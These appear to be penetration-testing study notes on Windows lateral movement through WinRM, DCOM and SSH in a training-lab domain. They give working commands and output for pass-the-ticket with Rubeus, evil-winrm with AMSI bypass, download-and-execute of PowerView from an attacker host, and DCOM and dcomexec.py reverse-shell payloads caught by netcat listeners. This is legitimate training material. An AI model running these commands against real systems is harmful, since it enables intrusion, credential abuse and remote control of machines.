You can use the `Enter-PSSession` cmdlet for an interactive shell using PowerShell remoting. This cmdlet allows you to initiate an interactive session with the remote computer, either by using a session created with `New-PSSession`, specifying explicit credentials, or leveraging the current session where the command is executed. For instance, reuse the `$sessionSRV02` variable you previously created. Specifying the `Enter-PSSession` and the variable will give you an interactive PowerShell prompt on the remote computer, allowing you to execute commands as if you were logged in directly:

```powershell
PS C:\Tools> Enter-PSSession $sessionSRV02
[SRV02]: PS C:\Users\helen\Documents>
```

##### Using Hashes and Tickets with WinRM

Additionally, you can also use kerberos tickets to connect to PowerShell remoting. To do this, you will use Rubeus. First you need to forge your TGT.

```powershell
PS C:\Tools>  .\Rubeus.exe asktgt /user:leonvqz /rc4:3223DA033D176ABAAF6BEAA0AA681400 /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2

[*] Action: Ask TGT

[*] Got domain: inlanefreight.local
[*] Using rc4_hmac hash: 3223DA033D176ABAAF6BEAA0AA681400
[*] Building AS-REQ (w/ preauth) for: 'inlanefreight.local\leonvqz'
[*] Using domain controller: 172.20.0.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFsjCCBa6gAwIBBaEDAgEWooIEszCCBK9hgg

  ServiceName              :  krbtgt/inlanefreight.local
  ServiceRealm             :  INLANEFREIGHT.LOCAL
  UserName                 :  leonvqz (NT_PRINCIPAL)
  UserRealm                :  INLANEFREIGHT.LOCAL
...SNIP...
```

Next, you need to create a sacrificial process with the option `createnetonly`.

```powershell
PS C:\Tools> .\Rubeus.exe createnetonly /program:powershell.exe /show
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2

[*] Action: Create Process (/netonly)

[*] Using random username and password.

[*] Showing process : True
[*] Username        : SB09OE04
[*] Domain          : 16GFWBFF
[*] Password        : 5AB6RGSG
[+] Process         : 'powershell.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 2088
[+] LUID            : 0xded959c
```

The above command will present you a PowerShell window with dummy credentials, you will use to import the TGT of the account you want to use:

```powershell
PS C:\Tools> .\Rubeus.exe ptt /ticket:doIFsjCCBa6gAwIBBaEDAgEWooIEszCCBK9h...SNIP...
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2

[*] Action: Import Ticket
[+] Ticket successfully imported!
```

Now you can use this session to connect to the target machine:

```powershell
PS C:\Tools> Enter-PSSession SRV02.inlanefreight.local -Authentication Negotiate
[SRV02.inlanefreight.local]: PS C:\Users\Leonvqz\Documents> hostname
SRV02
```

Now that you are connected to this machine, if you try to use this session to connect to a different target over the network, it won't work because of the double hop problem. A workaround is to use Rubeus within this session to forge a ticket and import it so you can use it for further authentication.

##### PowerShell Errors

Depending on the context, you may get a PowerShell error while attempting to connect to a remote host from Windows. Those errors are typically related to rights, authentication method, network access, or TrustedHost configuration. In the following example, you got an error because you attempted to use the target machine's name instead of the FQDN. Sometimes, Kerberos won't work unless you use the FQDN.

```powershell
PS C:\Tools> Enter-PSSession srv02
Enter-PSSession : Processing data from remote server srv02 failed with the following error message: WinRM cannot
process the request. The following error with errorcode 0x80090322 occurred while using Kerberos authentication: An
unknown security error occurred.
 Possible causes are:
  -The user name or password specified are invalid.
  -Kerberos is used when no authentication method and no user name are specified.
  -Kerberos accepts domain user names, but not local user names.
  -The Service Principal Name (SPN) for the remote computer name and port does not exist.
  -The client and remote computers are in different domains and there is no trust between the two domains.
 After checking for the above issues, try the following:
  -Check the Event Viewer for events related to authentication.
  -Change the authentication method; add the destination computer to the WinRM TrustedHosts configuration setting or
use HTTPS transport.
 Note that computers in the TrustedHosts list might not be authenticated.
   -For more information about WinRM configuration, run the following command: winrm help config. For more
information, see the about_Remote_Troubleshooting Help topic.
At line:1 char:1
+ Enter-PSSession srv02
+ ~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidArgument: (srv02:String) [Enter-PSSession], PSRemotingTransportException
    + FullyQualifiedErrorId : CreateRemoteRunspaceFailed
```

You can try to use the FQNM instead:

```powershell
PS C:\Tools> Enter-PSSession srv02.inlanefreight.local
[srv02.inlanefreight.local]: PS C:\Users\Helen\Documents>
```

Additionally, you can get a `TrustedHosts` as follows:

```powershell
PS C:\Tools> Enter-PSSession srv02 -Authentication Negotiate
Enter-PSSession : Connecting to remote server srv02 failed with the following error message : The WinRM client cannot
process the request.  Default credentials with Negotiate over HTTP can be used only if the target machine is part of
the TrustedHosts list or the Allow implicit credentials for Negotiate option is specified. For more information, see
the about_Remote_Troubleshooting Help topic.
At line:1 char:1
+ Enter-PSSession srv02 -Authentication Negotiate
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidArgument: (srv02:String) [Enter-PSSession], PSRemotingTransportException
    + FullyQualifiedErrorId : CreateRemoteRunspaceFailed
```

> [!TIP]
> Keep in mind that using `-Authentication Negotiate` will select either Kerberos or NTLM as the underlying authentication mechanism based on what both the client and server support and prefer. It is good to use this flag if you are having authentication issues.

To solve this issue you can use the following command:

```powershell
PS C:\Tools> Set-Item WSMan:localhost\client\trustedhosts -value * -Force
```

If you are not admins, you can use explicit credentials with `-Credential` or `Invoke-Command`.

#### Just Enough Administration (_JEA_)

... is a security technology designed to provide delegated administration capabilities for tasks managed with PowerShell. JEA helps mitigate security risks by allowing administrators to limit the scope of administrative privileges. By using JEA, administrators can ensure that users only have the permission necessary to perform specific tasks, reducing the attack surface and minimizing the risk of accidental or intentional misuse of administrative privileges.

JEA is particularly useful in environments where least privilege principles are critical. It allows organizations to create PowerShell endpoints with tailored roles and capabilities, ensuring users can only execute predefined commands and access specific resources. This approach enhances security and simplifies compliance with organizational policies and regulatory requirements by ensuring that administrative actions are tightly controlled and auditable. Further reads [here](https://www.scriptjunkie.us/2016/10/just-too-much-administration-breaking-jea-powershells-new-security-barrier/), and [here](https://securityaffairs.com/52084/hacking/jea-profiles-abuses.html).

#### Lateral Movement from Linux

##### NetExec

With NetExec you can use the option `-x` or `-X` to execute CMD or PowerShell commands.

```bash
d41y@htb[/htb]$ netexec winrm 10.129.229.244 -u frewdy -p Kiosko093 -x "ipconfig"
WINRM       10.129.229.244  5985   SRV01            [*] Windows 10 / Server 2019 Build 17763 (name:SRV01) (domain:inlanefreight.local)
WINRM       10.129.229.244  5985   SRV01            [+] inlanefreight.local\frewdy:Kiosko093 (Pwn3d!)
WINRM       10.129.229.244  5985   SRV01            [-] Execute command failed, current user: 'inlanefreight.local\frewdy' has no 'Invoke' rights to execute command (shell type: cmd)
WINRM       10.129.229.244  5985   SRV01            [+] Executed command (shell type: powershell)
WINRM       10.129.229.244  5985   SRV01            
WINRM       10.129.229.244  5985   SRV01            Windows IP Configuration
WINRM       10.129.229.244  5985   SRV01            
WINRM       10.129.229.244  5985   SRV01            
WINRM       10.129.229.244  5985   SRV01            Ethernet adapter Ethernet1:
WINRM       10.129.229.244  5985   SRV01            
WINRM       10.129.229.244  5985   SRV01            Connection-specific DNS Suffix  . :
WINRM       10.129.229.244  5985   SRV01            Link-local IPv6 Address . . . . . : fe80::206d:76ce:27d6:960b%7
WINRM       10.129.229.244  5985   SRV01            IPv4 Address. . . . . . . . . . . : 172.20.0.51
WINRM       10.129.229.244  5985   SRV01            Subnet Mask . . . . . . . . . . . : 255.255.255.0
WINRM       10.129.229.244  5985   SRV01            Default Gateway . . . . . . . . .
```

##### Evil-WinRM

You can use `evil-winrm` to connect to a remote Windows machine and execute commands. You must specify the option `-i <target>` and the credentials with the options `-u <domain>\<user>` for users and for password `-p <password>`.

```bash
d41y@htb[/htb]$ evil-winrm -i 10.129.229.244 -u 'inlanefreight.local\frewdy' -p Kiosko093

Evil-WinRM shell v3.5
...SNIP...
*Evil-WinRM* PS C:\Users\frewdy\Documents> hostname;whoami
SRV01
inlanefreight\frewdy
```

Additionally, `evil-winrm` comes with features that facilitate interaction with remote systems and bypass common security mechanisms. You can get access to the features using the `menu` command from the interactive shell:

```bash
d41y@htb[/htb]$ 
*Evil-WinRM* PS C:\Users\frewdy\Documents> menu


   ,.   (   .      )               "            ,.   (   .      )       .   
  ("  (  )  )'     ,'             (`     '`    ("     )  )'     ,'   .  ,)  
.; )  ' (( (" )    ;(,      .     ;)  "  )"  .; )  ' (( (" )   );(,   )((   
_".,_,.__).,) (.._( ._),     )  , (._..( '.._"._, . '._)_(..,_(_".) _( _')  
\_   _____/__  _|__|  |    ((  (  /  \    /  \__| ____\______   \  /     \  
 |    __)_\  \/ /  |  |    ;_)_') \   \/\/   /  |/    \|       _/ /  \ /  \ 
 |        \\   /|  |  |__ /_____/  \        /|  |   |  \    |   \/    Y    \
/_______  / \_/ |__|____/           \__/\  / |__|___|  /____|_  /\____|__  /
        \/                               \/          \/       \/         \/

       By: CyberVaca, OscarAkaElvis, Jarilaos, Arale61 @Hackplayers

[+] Dll-Loader 
[+] Donut-Loader 
[+] Invoke-Binary
[+] Bypass-4MSI
[+] services
[+] upload
[+] download
[+] menu
[+] exit
```

Evil-WinRM allows you to load PowerShell scripts. You must specify the `-s <PATH>` option and, within that path, save the scripts you want to import. You need to specify the file's name to import a script to the Evil-WinRM shell.

```bash
d41y@htb[/htb]$ evil-winrm -i 10.129.229.244 -u 'inlanefreight.local\frewdy' -p Kiosko093 -s '/home/plaintext/'
*Evil-WinRM* PS C:\Users\frewdy\Documents> PowerView.ps1
*Evil-WinRM* PS C:\Users\frewdy\Documents> menu
                                         
                                         
   ,.   (   .      )               "            ,.   (   .      )       .   
  ("  (  )  )'     ,'             (`     '`    ("     )  )'     ,'   .  ,)        
.; )  ' (( (" )    ;(,      .     ;)  "  )"  .; )  ' (( (" )   );(,   )((   
_".,_,.__).,) (.._( ._),     )  , (._..( '.._"._, . '._)_(..,_(_".) _( _')  
\_   _____/__  _|__|  |    ((  (  /  \    /  \__| ____\______   \  /     \  
 |    __)_\  \/ /  |  |    ;_)_') \   \/\/   /  |/    \|       _/ /  \ /  \ 
 |        \\   /|  |  |__ /_____/  \        /|  |   |  \    |   \/    Y    \      
/_______  / \_/ |__|____/           \__/\  / |__|___|  /____|_  /\____|__  /
        \/                               \/          \/       \/         \/

       By: CyberVaca, OscarAkaElvis, Jarilaos, Arale61 @Hackplayers

[+] Add-DomainGroupMember 
[+] Add-DomainObjectAcl 
[+] Add-RemoteConnection
```

In the above command, you established a session and invoked `PowerView.ps1` because `PowerView.ps1` is located at `/home/plaintext`. Next, you executed the `menu` command, which displayed not only the default menu options but also the cmdlets available since you imported PowerView.

Additionally, you can also load DLLs or [Donut](https://github.com/TheWover/donut) payloads.

#### Windows PowerShell Web Access

It is also possible that the Administrator configures Windows PowerShell Web Access, which provides a web-based interface for accessing PowerShell sessions remotely. This feature allows users to run PowerShell commands and scripts from a web browser, offering flexibility and convenience for remote managament tasks. Accessing PowerShell through a web portal allows users to perform administrative tasks on remote system without needing a direct remote desktop connection or VPN access.



> [!NOTE]
> By default the URL path for PowerShell Web Access is `/pswa` and the port will be 80 or 443.

Valid credentials are required to authenticate with PowerShell remoting. These credentials must have appropriate permissions on the target system to initiate and execute remote PowerShell commands. Depending on the configuration, this could involve standard user accounts or accounts with elevated privileges, such as those belonging to the Remote Management Users group or local Administrators.

Connecting:



When working with PowerShell Web Access and needing to retrieve large amounts of information, you should consider using Base64 output to optimize the process. PowerShell Web Access connects to the target machine to retrieve each line, meaning it may take much time to retrieve a large file if you are on a slow network.

For example, if you try to get the contents of `C:\Windows\System32\drivers\etc\hosts` using `cat`, it will take some time to load due to the line-by-line transfer. Instead, you can use the following command to convert the file contents to Base64:

```powershell
PS C:\Tools> [Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Windows\System32\drivers\etc\hosts"))
```



This will load faster. You can then copy that content to a file, replace the break lines, and use `cat hosts_base64.txt | base64 -d > hosts` in a Linux terminal to decode the content quickly.

In case you want to use PowerView through PowerShell Web Access you may get the following error:

```powershell
PS C:\Tools> IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.87/PowerView.ps1')
PS C:\Tools> Get-DomainUser
Exception calling "FindAll" with "0" argument(s): "An operations error occurred.
"
At line:5253 char:20
+             else { $Results = $UserSearcher.FindAll() }
+                    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
 + FullyQualifiedErrorId : DirectoryServicesCOMException
```

To prevent this from happening, you must specify your credentials as follows:

```powershell
PS C:\Tools> $username = "INLANEFREIGHT\Helen"
PS C:\Tools> $password = "RedRiot88"
PS C:\Tools> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
PS C:\Tools> $credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword)
PS C:\Tools> Get-DomainUser -Credential $credential -FindOne

logoncount                    : 1100
badpasswordtime               : 6/27/2024 6:32:03 AM
description                   : Built-in account for administering the computer/domain
distinguishedname             : CN=Administrator,CN=Users,DC=inlanefreight,DC=local
objectclass                   : {top, person, organizationalPerson, user}
lastlogontimestamp            : 6/30/2024 6:21:56 AM
name                          : Administrator
lockout time                   : 0
objectsid                     : S-1-5-21-2760730334-3436498779-657182845-500
samaccountname                : Administrator
logonhours                    : {255, 255, 255, 255...}
...SNIP...
```

### Distributed Component Object Model (_DCOM_)

... is a Microsoft technology for software components distributed across networked computers. It extends the Component Object Model (_COM_) to support communication among objects over a network. It operates on top of the remote procedure call (_RPC_) transport protocol based on TCP/IP for its network communications. DCOM uses port 135 for the initial communication and dynamic ports in the range ? `49152-65535` for subsequent client-server interactions. Information about the identity, implementation, and configuration of each DCOM object is stored in the registry, linked to several key identifiers:

- **CLSID (_Class Identifier_)**: A unique GUID for a COM class, pointing to its implementation in the registry via `InProcServer32` for DLL-based objects or `LocalServer32` for executable based objects.
- **ProgID (_Programmatic Identifier_)**: An optional, user-friendly name for a COM class, used as an alternative to the CLSID, though it is not unique and not always present.
- **AppID (_Application Identifier)**: Specifies configuration details for one or more COM objects within the same executable, including permissions for local and remote access.

#### Rights

Leveraging DCOM for lateral movement requires specific user rights and permissions. These rights ensure that users have the appropriate level of access to perform DCOM operations securely. These include general user rights such as `local and network access`, which enable communication with DCOM services locally and over a network. Additionally, membership in the `Distributed COM Users Group` or the `Administrators Group` is often required, as these groups have the necessary permissions. These settings are typically managed using the DCOM Configuration Tool (_DCOMCNFG_), Group Policy, or the Windows Registry.

#### Enum

You can use nmap to scan the target and identify DCOM.

```bash
d41y@htb[/htb]$ nmap -p135,49152-65535 10.129.229.244 -sCV -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2024-06-12 00:16 UTC
Nmap scan report for srv01.inlanefreight.local (10.129.229.244)
Host is up (0.0017s latency).
Not shown: 16376 filtered ports

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
49664/tcp open  msrpc   Microsoft Windows RPC
49665/tcp open  msrpc   Microsoft Windows RPC
49666/tcp open  msrpc   Microsoft Windows RPC
49667/tcp open  msrpc   Microsoft Windows RPC
49669/tcp open  msrpc   Microsoft Windows RPC
49670/tcp open  msrpc   Microsoft Windows RPC
49671/tcp open  msrpc   Microsoft Windows RPC
49672/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: SRV02, NetBIOS user: <unknown>, NetBIOS MAC: 00:0d:3a:e4:57:44 (Microsoft)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 90.52 seconds
```

#### Lateral Movement from Windows

##### MMC20.Application

The `MMC20.Application` object allows remote interaction with Microsoft Management Console (_MMC_), enabling you to execute commands and manage administrative tasks on a Windows system through its graphical user interface components.

To use this technique, start listening with Netcat:

```bash
d41y@htb[/htb]$ nc -lnvp 8001
Listening on 0.0.0.0 8001
```

After connecting via RDP, you must create an instance of the `MMC20.Application` object. This is done using PowerShell to interact with COM objects.

```powershell
PS C:\Tools\> $mmc = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","172.20.0.52"));
```

You create an instance of the `MMC20.Application` COM object on your target server SRV02 using PowerShell. You declare a variable `$mmc` to store this instance and use the .NET Activator class's `CreateInstance` method to initialize it. The `GetTypeFromProgID` method retrieves the type information for the MMC20.Application based on its `ProgID`, "MMC20.Application", from the remote server at `172.20.0.52`.

Next, you can utilize the `ExecuteShellCommand` function within the `Document.ActiveView` property. [Microsoft documentation](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/mmc/view-executeshellcommand) defines the method as follows:

```
View.ExecuteShellCommand( _
  ByVal Command As String, _
  ByVal Directory As String, _
  ByVal Parameters As String, _
  ByVal WindowState As String _
)
```

In order to use it, you must complete all parameters. The first is the command to execute, which will be `powershell.exe`, next you set the directory to `$null`, third you add PowerShell's parameters with your reverse shell payload, and finally you set the WindowState to `0` so it will execute normally:

```powershell
PS C:\Tools\> $mmc.Document.ActiveView.ExecuteShellCommand("powershell.exe",$null,"-e JABjAGwAaQBlAG...SNIP...AbwBzAGUAKAApAA==",0)
```

After execution, you would have successfully established a revshell connection:

```bash
d41y@htb[/htb]$ nc -lnvp 8001                                                                                  
listening on [any] 8001 ...                                                                                    
connect to [10.10.14.207] from (UNKNOWN) [10.129.229.245] 58400                                                                                                     

PS C:\Windows\system32> whoami                                                                                 
inlanefreight\helen
```

Execution of `mmc.exe` through COM is highly unusual, making it difficult to mask this technique as benign activity and likely to trigger alerts for defenders, but that will depend on the maturity of the organization.

##### ShellWindows & ShellBrowserWindow

ShellWindows and `ShellBrowserWindow` objects in DCOM are very similar, they facilitate remote interaction with Windows Explorer instances. `ShellWindows` allows enumeration and control of open windows, enabling operations such as accessing files and executing commands within the Windows shell environment. However, `ShellBrowserWindow` provides specific control over browser windows within Windows Explorer, offering capabilities for managing file operations and executing commands remotely.

Since these objects aren't associated with a `ProgID`, you must employ the `Type.GetTypeFromCLSID` method in .NET along with `Activator.CreateInstance` to create an instance of the object via its `CLSID` on a remote host. You can find the `CLSID` with the following script:

```powershell
PS C:\Tools> Get-ChildItem -Path 'HKLM:\SOFTWARE\Classes\CLSID' | ForEach-Object{Get-ItemProperty -Path $_.PSPath | Where-Object {$_.'(default)' -eq 'ShellWindows'} | Select-Object -ExpandProperty PSChildName}

{9BA05972-F6A8-11CF-A442-00A0C90A8F39}
```

You won't be able to use this technique in this lab because it doesn't have all the required components. However, if you find a server where those components exist, you can use this method to perform remote code execution. This technique involves instantiating the `ShellWindows` object.

```powershell
PS C:\Tools> $shell = [activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880","SRV02"))
```

```powershell
PS C:\Tools\> $shell = [activator]::CreateInstance([type]::GetTypeFromCLSID("9BA05972-F6A8-11CF-A442-00A0C90A8F39","172.20.0.52"))
```

Start listening:

```bash
d41y@htb[/htb]$ nc -lnvp 8080
Listening on 0.0.0.0 8080
```

After that, you can execute any command using the `ShellExecute` method of the `Document.Application` property. You will use `cmd.exe` to execute your payload. You will be using a PowerShell revshell payload.

```powershell
PS C:\Tools\> $shell[0].Document.Application.ShellExecute("cmd.exe","/c powershell -e JABjAGwAaQBlAG...SNIP...AbwBzAGUAKAApAA==","C:\Windows\System32",$null,0)
```

Finally, you can confirm that you have successfully established a revshell connection:

```bash
Connection received on 172.20.0.52 50105

PS C:\Windows\system32> hostname
SRV02
```

#### Lateral Movement from Linux

##### dcomexec.py

`dcomexec.py` from Impacket provides an interactive shell on a remote Windows host, similar to `wmiexec.py`, but utilizes different DCOM endpoints for command execution. It operates over TCP port 445, retrieving output via the `ADMIN$` share. This tool supports DCOM objects like `MMC20.Application`, `ShellWindows`, and `ShellBrowserWindow`, offering alternative remote execution methods.

You can leverage `dcomexec.py` to connect to a remote host and get code execution. Start listening:

```bash
d41y@htb[/htb]$ nc -lnvp 8080
Listening on 0.0.0.0 8080
```

Now, you will use the user `Josias` and the password `Jonny25` to connect to SRV02, this user is a member of the `Distributed COM Users` which have the necessary permissions to execute `dcomexec.py`, you must specify the DCOM object you wish to use with `-object`, for this example, you will be using `MMC20`, after that you must specify the domain, user, and password along with the target IP address, `<domain>/<user>:<password>@<ip>`, finally, you can pass your payload:

```powershell
d41y@htb[/htb]$ proxychains4 -q python3 dcomexec.py -object MMC20 INLANEFREIGHT/Josias:Jonny25@172.20.0.52 "powershell -e JABjAGwAaQBlAG...SNIP...AbwBzAGUAKAApAA==" -silentcommand
```

> [!NOTE]
> In case the TCP port 445 is not available, you can use the option `-no-output`. This will disable the output and it won't try to use port 445 for connections.

As you can see, you have successfully gained access to system:

```bash
d41y@htb[/htb]$ nc -lnvp 8001
listening on [any] 8001 ...
connect to [10.10.14.207] from (UNKNOWN) [10.129.229.245] 49869

PS C:\windows\system32> whoami
inlanefreight\josias
```

> [!NOTE]
> Alternatively, `dcomexec.py` also supports `ShellWindows` and `ShellBrowserWindow` objects; you can substitute MMC20 and if those are enabled, it will allow you to perform code execution.

### SSH

#### Rights

For SSH lateral movement on Windows systems, several prerequisites and permissions are essential. The target system must have an SSH server, such as OpenSSH, installed and operational, while the initiating system needs an SSH client. Network connectivity should permit SSH traffic, typically on TCP port 22. Valid user credentials for an account on the target system are required, and administrative privileges are often necessary for various tasks. File system access permissions are needed for operations like file transfer using `scp` or `sftp`, and certain group policies may require adjustment to facilitate SSH connections and appropriate user rights.

#### Enum

To leverage SSH for lateral movement you must find if the protocol is running on any PC in the network and check your credentials.

```bash
d41y@htb[/htb]$ nmap 10.129.229.244 -p 22 -sCV -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2024-06-16 01:09 UTC
Nmap scan report for srv01.inlanefreight.local (10.129.229.244)
Host is up (0.0013s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 6e:40:59:3c:f2:74:9e:1a:e6:ac:46:a0:72:b1:fd:0f (RSA)
|   256 30:ec:1b:be:37:99:5e:85:4a:ab:90:40:83:46:77:c6 (ECDSA)
|_  256 91:04:43:21:65:02:b2:72:17:f5:ba:65:99:8b:06:02 (ED25519)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.27 seconds
```

To test credentials, you can use `netexec` with the protocol `ssh`, you must specify the target IP address or domain name `<ip/domain>`, the user `-u <user>` and the password `-p <password>`:

```bash
d41y@htb[/htb]$ netexec ssh 10.129.229.244 -u ambioris -p Ward@do9049
SSH         10.129.229.244  22     10.129.229.244   [*] SSH-2.0-OpenSSH_for_Windows_7.7
SSH         10.129.229.244  22     10.129.229.244   [+] ambioris:Ward@do9049  Windows - Shell access!
```

As you can see, you have valid credentials to connect to SSH.

#### Lateral Movement from Linux and Windows

SSH is not common on Windows environments, but sometimes administrators can install it for different purposes, if you find SSH on Windows, then you can use it for lateral movement. To authenticate with credentials you must use the following command `ssh <user>@<ip/domain>`, the user will be `ambioris` and the password `Ward@do9049`.

Connect from your Linux machine:

```bash
d41y@htb[/htb]$ ssh Ambioris@10.129.229.244
Ambioris@10.129.229.244's password: 
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

inlanefreight\ambioris@SRV01 C:\Users\ambioris>
```

After a successful connection, the Windows command shell prompt will appear:

```powershell
PS C:\Tools> ssh ambioris@SRV01
ambioris@SRV01's password:
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

inlanefreight\ambioris@SRV01 C:\Users\ambioris>
```

#### Private Key Authentication

SSH also allows you to use public and private key combination for authentication purposes. If you have a private key, you can use it to authenticate without a password. Use a private key located at `C:\helen_id_rsa` in SRV01 to authenticate as helen. You will use the option `-i <path private key>` to specify the private key, the option `-l <login@domain>` to specify username and domain name, the option `-p <port>` to specify the port number, by default it will use port 22, you don't need to specify it if the server is using the default, and finally you specify the target machine or IP:

```powershell
PS C:\Tools> ssh -i C:\helen_id_rsa -l helen@inlanefreight.local -p 22 SRV01
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions for 'C:\\helen_id_rsa' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "C:\\helen_id_rsa": bad permissions
```

You got an error because the private key privileges are too permissive. You can use `icacls` to list the privileges:

```powershell
PS C:\Tools> icacls.exe C:\helen_id_rsa
C:\helen_id_rsa NT AUTHORITY\SYSTEM:(I)(F)
                BUILTIN\Administrators:(I)(F)
                BUILTIN\Users:(I)(RX)
```

As you can see, the `BUILTIN\Users:(I)(RX)` can read and execute this file, you need to remove that group. The easy way is to copy the file to a directory your user owns, in this case, you are using Ambiori's session so copy it to `C:\Users\Ambioris`.

```powershell
PS C:\Tools> copy C:\helen_id_rsa C:\Users\Ambioris\
        1 file(s) copied.
```

Now, if you check the rights on the file, you will notice that `BUILTIN\Users:(I)(RX)` is removed, and you have explicitly `INLANEFREIGHT\Ambioris:(F)`. This is because of the inheritance on this directory.

```powershell
PS C:\Tools> icacls helen_id_rsa
